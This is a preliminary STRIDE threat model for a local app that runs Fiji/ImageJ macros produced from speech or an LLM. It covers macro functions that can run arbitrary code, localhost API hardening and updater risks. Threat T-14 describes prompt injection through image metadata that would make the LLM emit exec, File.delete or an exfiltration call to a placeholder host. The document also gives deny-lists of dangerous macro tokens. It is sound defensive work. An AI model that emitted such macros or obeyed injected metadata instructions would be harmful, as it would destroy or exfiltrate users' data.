

# A25 — Security and Privacy Analysis

## Executive Summary

This is a preliminary STRIDE threat model for a local desktop scientific application that drives an unmodified Fiji. The main findings:

1. **The ImageJ macro language can execute arbitrary code.** Pinned ImageJ 1.54p exposes `exec()` (`Runtime.getRuntime().exec(cmd)`, `ij/macro/Functions.java#L5210`), `eval("js"|"script"|"bsh"|"python", code)` (L3788–L3793), `call("class.method", …)` (reflective call of any public static method, L4607–L4633), `File.delete` (L4437–L4438), `File.rename`/`copy`/`append`/`saveString` (L4374–L4398) and `File.openUrlAsString` (L4354–L4355). `checkPath` rejects only the strings `"0"` and `"NaN"` (L4464–L4470). **VERIFIED**. Any macro that natural language, an LLM or an imported file produces must therefore be treated as code with the user's full privileges.
2. **The prototype's loopback API is hardened against cross-site requests from browsers but not against other local processes.** `TrustedHostMiddleware` (allowed hosts `127.0.0.1`, `localhost`, `testserver`) blocks DNS rebinding, and an `Origin` allowlist rejects cross-origin browser requests ([main.py L26, L36–L45](../../../backend/src/fidelis/main.py#L26)). There is no authentication. Requests without an `Origin` header are accepted. A future WebSocket endpoint would **bypass** the Origin check, because Starlette's `BaseHTTPMiddleware` passes non-HTTP scopes straight through (`starlette/middleware/base.py#L102`). **VERIFIED** by code reading; runtime behaviour INFERRED.
3. **Fiji's supply chain uses SHA-1 checksums without signatures and can fall back to HTTP.** The updater digests with `MessageDigest.getInstance("SHA-1")` (`UpdaterUtil.java#L126`) and switches to HTTP after an SSL handshake failure or timeout (`HTTPSUtil.java#L80–L89`, message "Will fall back to HTTP. This is a security risk."). The ImageJ1 updater URL is `http://wsr.imagej.net` (`ImageJ_Updater.java#L13`). Sample images are fetched from `http://imagej.net/images/` (`IJ_Props.txt` L437, "stopped using https due to Windows bug"). **VERIFIED**.
4. **Data egress already exists in the base runtime.** Fiji checks for updates once every 24 h when a UI is shown, unless `-Dimagej.updater.disableAutocheck=true` is set (`DefaultUpdateService.java#L65, L113–L125`). The bundled Zulu JDK includes the Azul Connected Runtime Service module `com.azul.crs.client`, whose default activity is **UNKNOWN**. Prototype speech is fully local (`local_files_only=True`, [worker.py L27](../../../speech/worker.py#L27)).
5. **Paths that may be sensitive are persisted.** ImageJ stores the last 15 opened paths as `recentNN` keys in `IJ_Prefs.txt` under `%USERPROFILE%\.imagej` (`Menus.java#L47, L416`; `Prefs.java#L432–L436`). The prototype writes absolute paths into `outputs/<job>/execution.ijm` (fiji.py L48–L66, L90) and captures Fiji stdout to `fiji.log`, with no retention policy. **VERIFIED**.

## Purpose and Scope

Scope is a single-user Windows desktop install with a local UI (browser or desktop shell), a local backend, one or more Fiji JVMs, a local speech worker, and an optional LLM (local or hosted). Out of scope: multi-user servers, OMERO and other remote image servers, institutional IT controls, and regulatory compliance claims (GDPR, HIPAA). §11 lists those as questions. The threat model is preliminary and must be revisited once the architecture is chosen (D-series).

## Sources and Evidence

- `imagej/ImageJ@v1.54p` (03382be1): `ij/macro/Functions.java`, `ij/macro/MacroConstants.java#L119–L121`, `ij/plugin/Macro_Runner.java#L245, L293, L315`, `ij/macro/StartupRunner.java`, `ij/ImageJ.java#L246`, `ij/Menus.java`, `ij/Prefs.java`, `ij/IJ.java#L2009`, `ij/plugin/ImageJ_Updater.java#L13`.
- `imagej/imagej-updater@imagej-updater-2.0.3` (4819c3c4): `util/UpdaterUtil.java`, `util/HTTPSUtil.java`, `DefaultUpdateService.java`, `CheckForUpdates.java`.
- Pinned install: `Fiji/jars/ij-1.54p.jar!/IJ_Props.txt` L434–L470; `Fiji/plugins/Samples_-2.0.3.jar!/plugins.config`; `Fiji/macros/AutoRun/AutoRun_Scripts.ijm`; `Fiji/scripts/Plugins/AutoRun/Check_Required_Update_Sites.js`; `Fiji/java/win64/zulu21.42.19-ca-jdk21.0.7-win_x64/release` (module list includes `com.azul.crs.client`).
- Prototype at `08a1433`: [backend/src/fidelis/main.py](../../../backend/src/fidelis/main.py), [adapters/fiji.py](../../../backend/src/fidelis/adapters/fiji.py), [speech/worker.py](../../../speech/worker.py), [frontend/src/main.tsx](../../../frontend/src/main.tsx), [frontend/vite.config.ts](../../../frontend/vite.config.ts), `.gitignore`.
- Installed `starlette` 1.8.0: `.venv/Lib/site-packages/starlette/middleware/base.py#L102`, `middleware/trustedhost.py#L33–L35`.
- Probe P71 (`probes/P71-sample-image-headers.csv`): real sample files carry free-text `ImageDescription` content, which is relevant to T-14.

## Verified Findings

### 5.1 Trust boundaries

### 5.2 Macro language capabilities (exact names, ImageJ 1.54p)

| Macro function | Implementation | Effect | Evidence |
|---|---|---|---|
| `exec(cmd, …)` | `Functions.exec()` L5179; `Runtime.getRuntime().exec(cmd)` L5210 | Runs any OS process. On Windows, `exec("open", path)` becomes `cmd /c start <path>` (L5194–L5206) | VERIFIED |
| `eval(code)` / `eval("js"\|"script", code)` / `eval("bsh", code)` / `eval("python", code)` | `runMacro(true)` L3778–L3797 → `Macro_Runner.runJavaScript` / `runBeanShell` / `runPython` | Evaluates macro text, JavaScript, BeanShell or Jython, all with full Java access | VERIFIED |
| `runMacro(path, arg)` | `IJ.runMacroFile` L3796 | Runs a macro file from disk | VERIFIED |
| `call("pkg.Class.method", args…)` | L4607–L4633, `IJ.getClassLoader().loadClass(className)` then `getMethod` | Calls any public static method on the Fiji classpath | VERIFIED |
| `File.delete(path)` | L4437–L4438 `f.delete()` | Deletes a file or empty directory with no confirmation | VERIFIED |
| `File.rename`, `File.copy`, `File.append`, `File.saveString`, `File.makeDirectory` | L4374–L4398, L4431 | Overwrite, move or create files; `rename` checks only `checkPath` (L4464) | VERIFIED |
| `File.openUrlAsString(url)` | L4354 → `IJ.openUrlAsString` (`IJ.java#L2009`) | HTTP GET to any URL. Data can leave the machine through the query string | VERIFIED |
| `saveAs(format, path)`, `run("Save")` | standard commands | Can overwrite originals in place | INFERRED (standard behaviour, not probed) |
| AutoRun | `ImageJ.java#L246` runs `StartupRunner`; Fiji's `macros/AutoRun/AutoRun_Scripts.ijm` runs every file in `plugins/Scripts/Plugins/AutoRun/` and `scripts/Plugins/AutoRun/` | Code dropped into those folders runs at every start | VERIFIED |

### 5.3 Prototype API controls

| Control | Location | Assessment |
|---|---|---|
| Bound to `127.0.0.1:8000`; Vite on `127.0.0.1:5173` | [README.md L13](../../../README.md#L13), [vite.config.ts L7–L10](../../../frontend/vite.config.ts#L7) | Not reachable from the LAN. Reachable by every local process and user session. |
| `TrustedHostMiddleware(allowed_hosts=["127.0.0.1","localhost","testserver"])` | main.py L26 | Blocks DNS rebinding, because a rebound page sends `Host: attacker.example`. It also covers the `websocket` scope (`trustedhost.py#L33–L35`). `testserver` is a test-client host and should not be allowed in production. |
| `Origin` allowlist of `http://{localhost,127.0.0.1}:{5173,8000,4173}`, enforced only when `Origin` is present | main.py L36–L45 | Browsers attach `Origin` to cross-origin `fetch` and form POSTs, so CSRF through browsers is blocked for POST (INFERRED). Requests with no `Origin` (curl, local scripts, some same-origin GETs) pass. |
| `@app.middleware("http")` | main.py L36 | Implemented with `BaseHTTPMiddleware`, which returns early when `scope["type"] != "http"` (`base.py#L102`). **A WebSocket route would not get the Origin check.** |
| Identifiers must be UUIDs; artifact names are allowlisted | main.py L51–L64, L218–L228 | Prevents path traversal. VERIFIED |
| Upload limits: 10 MiB body, PNG `L` mode, single frame, ≤ 4 Mpx, `DecompressionBombError` caught | main.py L67–L75, L96–L111 | Mitigates oversized and bomb inputs for the prototype format |
| Inputs re-encoded to `data/inputs/<uuid>.png`; outputs under `outputs/<job>/` | main.py L106–L108, L140; fiji.py L90–L94 | Originals are never written. Re-encoding drops the original filename and ancillary chunks (INFERRED from Pillow `save`). |
| Speech: push-to-talk `getUserMedia`, 25 s cap, tracks stopped on stop, temp dir deleted, model hash check, `local_files_only=True` | main.tsx L97–L113; main.py L119–L132; worker.py L15–L27 | No continuous listening; audio stays local; transcripts are not persisted by the backend (VERIFIED by code reading). |
| Path quoting in the generated macro: `json.dumps(path)` | fiji.py L48–L49 | Paths are UUID-based. Whether ImageJ string escapes match JSON escapes for every character is **UNKNOWN** (T-23). |

## Technical Details

### 6.1 Threat register

Likelihood and impact are qualitative (L/M/H) and **PROPOSED**. "Existing" lists controls that are VERIFIED above, unless marked otherwise.

| ID | Asset | STRIDE | Threat | L | I | Existing mitigation (Fiji / prototype) | Proposed control |
|---|---|---|---|---|---|---|---|
| T-01 | Unpublished microscopy images | I | Pixel data, thumbnails or screenshots are sent to a hosted AI provider without explicit consent | M | H | None in Fiji. The prototype has no LLM. | CR-A25-01, CR-A25-02 |
| T-02 | Clinical data (PHI in DICOM tags, file and folder names, `Info` property) | I | Metadata is exposed in prompts, logs or exports | M | H | None | CR-A25-02, CR-A25-09 |
| T-03 | Microphone audio | I | Capture happens without the user's awareness (hot mic, background listening) | L | H | Browser permission prompt; push-to-talk; 25 s cap; tracks stopped; button label changes ("Stop recording", main.tsx L152) | CR-A25-03 |
| T-04 | Audio and transcripts | I | Clips or transcripts are kept on disk or sent to a cloud ASR | L | M | Temp dir deleted; local model; no persistence | CR-A25-03 |
| T-05 | Workstation | E | A generated or imported macro calls `exec()` | M | H | None. ImageJ has no sandbox. | CR-A25-04, CR-A25-05 |
| T-06 | Original data | T | A macro deletes or overwrites files (`File.delete`, `File.rename`, `saveAs` to the source path) | M | H | Prototype never writes originals | CR-A25-04, CR-A25-07 |
| T-07 | Workstation | E | `eval("js"/"bsh"/"python", …)` or `call()` reaches arbitrary Java | M | H | None | CR-A25-04 |
| T-08 | Workstation | E | A shared `.ijm` or script runs on open, or is placed in an AutoRun folder | M | H | Fiji opens macros in the editor rather than running them (INFERRED, not probed) | CR-A25-05, CR-A25-06 |
| T-09 | Fiji install integrity | T | A malicious or compromised update site or plugin jar is installed; MITM through HTTP fallback | L | H | SHA-1 checksums in `db.xml.gz`; HTTPS preferred | CR-A25-06 |
| T-10 | Local API | S/T | A malicious web page makes cross-site requests to `127.0.0.1:8000` | L | H | Origin allowlist (POST); JSON bodies | CR-A25-08 |
| T-11 | Local API | S | DNS-rebinding page reaches the API under an attacker host name | L | H | `TrustedHostMiddleware` | CR-A25-08 (drop `testserver` in production) |
| T-12 | Local WebSocket bridge (future) | S/T | Cross-site WebSocket hijacking; the Origin check is skipped for the `websocket` scope | M | H | Host check only | CR-A25-08 |
| T-13 | Local API | S/E | Another local process or user session drives Fiji through the unauthenticated API | M | M | Loopback bind | CR-A25-08 |
| T-14 | Workstation and data | T/E/I | **Prompt injection.** Text in a TIFF `ImageDescription`, DICOM tag, file name, ROI name, Results label or macro comment instructs the LLM to emit `exec`, `File.delete` or `File.openUrlAsString("https://x/?d=…")` | M | H | Not applicable (no LLM in the prototype) | CR-A25-04, CR-A25-10 |
| T-15 | Scientific integrity | T | LLM output runs without review, or with silently changed parameters | M | H | Prototype regex grammar plus preview before Run | CR-A25-04, CR-A25-11 |
| T-16 | API keys for hosted providers | I | Keys are stored in plain text (`.env`) or appear in logs | M | M | `.env` is git-ignored (`.gitignore`) | CR-A25-12 |
| T-17 | Privacy and offline use | I | Background network calls: Fiji updater auto-check (24 h), Azul CRS (`com.azul.crs.client`, UNKNOWN), sample downloads, model download in `scripts/setup_speech.py` | H (update check) | L–M | Updater skips `HeadlessUI` and honours `imagej.updater.disableAutocheck` | CR-A25-13 |
| T-18 | Original data | T | Results are saved over source files; batch output collides with inputs | M | H | Prototype writes only under `outputs/<uuid>/` | CR-A25-07 |
| T-19 | Logs and prefs | I | Sensitive paths (user names, patient IDs) appear in `IJ_Prefs.txt` `recentNN`, `execution.ijm`, `fiji.log`, `manifest.json` and crash reports | H | M | `outputs/` and `*.log` are git-ignored | CR-A25-09 |
| T-20 | Availability | D | A huge or malformed header triggers OOM or a hang (header claiming more than 2^31 pixels, zip bomb) | M | M | Prototype: 10 MiB, 4 Mpx, bomb check, Fiji timeout (fiji.py) | CR-A25-14 |
| T-21 | Local files | I/T | Path traversal through the API | L | H | UUID identifiers and artifact allowlist | Keep the pattern (CR-A25-08) |
| T-22 | Availability and privacy | D/I | Features that silently require network (samples, LLM, update sites) fail offline or leak data | M | M | Updater has `offlineMode` (`HTTPSUtil`) | CR-A25-13 |
| T-23 | Workstation | E | Macro injection when user-controlled strings (file names, titles, NL parameters) are interpolated into generated macro text | M | H | `json.dumps` quoting of UUID paths | CR-A25-15 |
| T-24 | Scientific provenance | R | No reliable record of which operations changed which data, or of whether AI proposed them | M | M | Manifest with runtime lock hash and input SHA-256 (fiji.py L146–L150) | CR-A25-11 |
| T-25 | Workstation | E | Third-party plugin jars run with full user privileges; there is no Java sandbox (the Security Manager is deprecated for removal, JEP 411) | M | H | None | CR-A25-06 |

### 6.2 Localhost bridge: CSRF and DNS rebinding assessment

- **Rebinding.** An attacker page at `evil.example` that re-resolves to `127.0.0.1` sends `Host: evil.example`. The Host allowlist returns HTTP 400 ("Invalid host header", `trustedhost.py`). This is effective for HTTP and WebSocket (INFERRED from code; not probed).
- **CSRF.** Cross-origin `fetch` or form POSTs carry `Origin: https://evil.example` and are rejected with 403. A top-level GET navigation may omit `Origin`, but all GET routes in `main.py` are read-only, and the browser blocks the attacker from reading cross-origin responses (no CORS headers are emitted). Residual risk: any future state-changing GET route.
- **WebSocket.** Browsers do not apply CORS to WebSocket handshakes, and the prototype's Origin check does not run for `websocket` scopes. A future progress or event WebSocket must check `Origin` inside the endpoint (or in pure ASGI middleware) and require a session token.
- **Local processes.** Loopback offers no authentication. A per-launch random token, passed to the UI out of band (desktop shell injection, or a one-time URL fragment) and required on every HTTP and WebSocket request, closes T-13. A named pipe or stdio IPC to a desktop shell is the alternative (PROPOSED; for D-series ADR).

### 6.3 Natural-language and LLM macro pipeline (control design, PROPOSED)

1. Untrusted inputs to any prompt are labelled as data: file names, `getInfo`/`getMetadata` text, DICOM tags, ROI names and Results labels. They are not concatenated into instructions, and they are truncated and escaped.
2. Model output is never sent to the macro interpreter directly. It is parsed into a constrained intermediate representation: Fiji command name (from the A08 command catalogue), parameters, and target image. That representation is shown to the user, and the macro text is then **generated by the application**.
3. A macro that the user imports or that the model writes is tokenised with ImageJ's own `ij.macro.Tokenizer` (not regex). A deny-list of `exec`, `eval`, `call`, `runMacro`, `File.delete`, `File.rename`, `File.saveString`, `File.append`, `File.copy`, `File.openUrlAsString`, `getURL`-style network calls and `setOption("…")` changes that affect safety then requires explicit confirmation. The exact token constants are in `MacroConstants.java#L119–L121`.
4. Destructive file effects are redirected: output paths must sit under a project output folder, and writes to an input path are refused.

## Constraints and Limitations

- No probe exercised the API or Fiji at runtime for these threats. All controls marked "existing" are VERIFIED by code reading only.
- Azul CRS default behaviour is **UNKNOWN**. Azul's documentation disagrees on whether it is "disabled" or in "auto" mode ([key concepts](https://docs.azul.com/intelligence-cloud/about/key-concepts) versus [using Zulu/Zing](https://docs.azul.com/intelligence-cloud/setup-jvm/using-zulu-zing), both accessed 2026-10-17). Verify with a packet capture of a Fiji start (P-probe for D-series).
- Whether `File > Open` or drag-and-drop of `.ijm` runs or only opens the macro in the pinned Fiji was not probed (T-08 is INFERRED).

## Requirements or Design Implications

### Requirement implications

1. **CR-A25-01**: The application shall send no image pixels, thumbnails, metadata, file names or measurements to any network destination unless the user has enabled that provider and confirmed the specific payload class. *Rationale:* T-01/T-02; unpublished and clinical data.
2. **CR-A25-02**: Before any prompt leaves the machine, the application shall show the exact text and attachment list to be sent, and shall offer redaction of path components and metadata fields. *Rationale:* T-01, T-02, T-14.
3. **CR-A25-03**: Microphone capture shall start only on an explicit user action and stop within 30 s or on a second action. The UI shall show a persistent recording indicator for its whole duration. Audio and transcripts shall not be written to disk beyond the processing call unless the user opts in. *Rationale:* T-03/T-04; matches the prototype's 25 s cap.
4. **CR-A25-04**: Macro text generated from natural language, from an LLM, or imported by the user shall be tokenised with `ij.macro.Tokenizer`. Text containing `exec`, `eval`, `call`, `runMacro`, `File.delete`, `File.rename`, `File.copy`, `File.append`, `File.saveString` or `File.openUrlAsString` shall not run without a separate confirmation that names the function. *Rationale:* §5.2, T-05/T-07/T-14.
5. **CR-A25-05**: The application shall never execute a macro or script as a side effect of opening, previewing or importing it. *Rationale:* T-08.
6. **CR-A25-06**: The application shall show the update sites enabled in the managed Fiji and shall warn before any update or site change. It shall not modify Fiji's update sites without explicit user action. *Rationale:* T-09/T-25; SHA-1 without signatures, HTTP fallback.
7. **CR-A25-07**: The application shall refuse to write output to a path that is an input of the current workflow, and shall record SHA-256 of each input before and after a workflow. *Rationale:* T-06/T-18; scientific integrity.
8. **CR-A25-08**: Every local HTTP and WebSocket endpoint shall (a) bind to loopback only, (b) validate `Host` against an allowlist with no test-only hosts in release builds, (c) validate `Origin` on every request **including the WebSocket handshake**, and (d) require a per-launch random session token. *Rationale:* T-10–T-13, §6.2.
9. **CR-A25-09**: Application logs, manifests and crash reports shall not contain absolute user paths or image metadata by default. They shall use project-relative paths or hashed identifiers, with an opt-in verbose mode. Outputs shall have a documented retention and deletion function. *Rationale:* T-19, T-02.
10. **CR-A25-10**: Text taken from image metadata, file names, ROI names or table labels shall be passed to any LLM only inside a delimited data field, truncated to a documented length, and never as instructions. *Rationale:* T-14.
11. **CR-A25-11**: Every executed operation shall be logged with its origin (typed, spoken, LLM-proposed or imported), the exact macro or command sent to Fiji, and whether the user edited it. *Rationale:* T-15/T-24.
12. **CR-A25-12**: API keys for hosted providers shall be stored in the OS credential store (Windows Credential Manager), not in plain-text files, and shall never be logged. *Rationale:* T-16.
13. **CR-A25-13**: With network access disabled, the application shall provide all core functions (open, process, measure, macro, speech) and shall make no outbound connection. This shall be verified by a packet capture during a scripted session, including Fiji start (updater autocheck disabled with `-Dimagej.updater.disableAutocheck=true`; JDK telemetry confirmed off). *Rationale:* T-17/T-22; offline labs.
14. **CR-A25-14**: Before loading pixels, the application shall read image dimensions from metadata only and shall ask for confirmation, or use a virtual stack, when the estimated in-memory size exceeds a configurable fraction of the JVM `-Xmx`. *Rationale:* T-20.
15. **CR-A25-15**: Generated macros shall pass user-controlled strings only through a single escaping function verified against ImageJ's tokenizer, with tests for quotes, backslashes, newlines and non-ASCII characters. *Rationale:* T-23.

## Risks and Unknowns

| ID | Risk | Likelihood | Impact | Mitigation |
|---|---|---|---|---|
| R-A25-01 | An LLM-proposed macro destroys or exfiltrates data | M | H | CR-A25-04/10/11; constrained intermediate representation (§6.3) |
| R-A25-02 | The localhost bridge is abused by a local process or a future WebSocket route | M | H | CR-A25-08 |
| R-A25-03 | Compromised update site or plugin | L | H | CR-A25-06; pin the Fiji install by lock hash (existing `verify_runtime`) |
| R-A25-04 | Clinical identifiers leak through logs, prefs or prompts | M | H | CR-A25-02/09; legal and institutional review |
| R-A25-05 | Hidden network egress breaks offline or air-gapped use | M | M | CR-A25-13; Azul CRS verification |
| R-A25-06 | Security controls (confirmations) are so frequent that users approve without reading | M | M | Confirm only deny-listed functions; usability test (A21) |

## Decisions Required

- Whether hosted LLM providers are allowed at all in the HACK and MVP scopes, and if so which data classes may leave the machine (owner decision; links CR-A25-01).
- IPC mechanism between UI and backend: loopback HTTP with token, or a desktop-shell pipe (ADR in D-series).
- Whether the managed Fiji should be launched with update autocheck disabled and update sites locked (affects plugin users).

## References

- `imagej/ImageJ@v1.54p:ij/macro/Functions.java#L3778-L3797, #L4340-L4440, #L4464-L4470, #L4607-L4633, #L5179-L5210`; `ij/macro/MacroConstants.java#L119-L121`; `ij/plugin/Macro_Runner.java#L245`; `ij/ImageJ.java#L246`; `ij/Menus.java#L47,L416`; `ij/Prefs.java#L411-L436`; `ij/IJ.java#L2009`; `ij/plugin/ImageJ_Updater.java#L13`.
- `imagej/imagej-updater@imagej-updater-2.0.3:src/main/java/net/imagej/updater/util/UpdaterUtil.java#L84,L126`; `util/HTTPSUtil.java#L48-L90`; `DefaultUpdateService.java#L65,L113-L125`; `CheckForUpdates.java#L63-L100`.
- `Fiji/jars/ij-1.54p.jar!/IJ_Props.txt` L434–L470; `Fiji/plugins/Samples_-2.0.3.jar!/plugins.config`; `Fiji/macros/AutoRun/AutoRun_Scripts.ijm`.
- Prototype: [main.py](../../../backend/src/fidelis/main.py), [fiji.py](../../../backend/src/fidelis/adapters/fiji.py), [worker.py](../../../speech/worker.py), [main.tsx](../../../frontend/src/main.tsx), [vite.config.ts](../../../frontend/vite.config.ts).
- Starlette 1.8.0 installed source, `middleware/base.py#L102`, `middleware/trustedhost.py#L33`.
- Azul, [Intelligence Cloud key concepts](https://docs.azul.com/intelligence-cloud/about/key-concepts) and [Using Azul Zulu or Zing](https://docs.azul.com/intelligence-cloud/setup-jvm/using-zulu-zing), accessed 2026-10-17.
- OpenJDK, [JEP 411: Deprecate the Security Manager for Removal](https://openjdk.org/jeps/411), accessed 2026-10-17.
- `probes/P71-sample-image-headers.csv` (free-text descriptions in real samples).

## Change log

- 2026-10-17: Initial draft (G7).
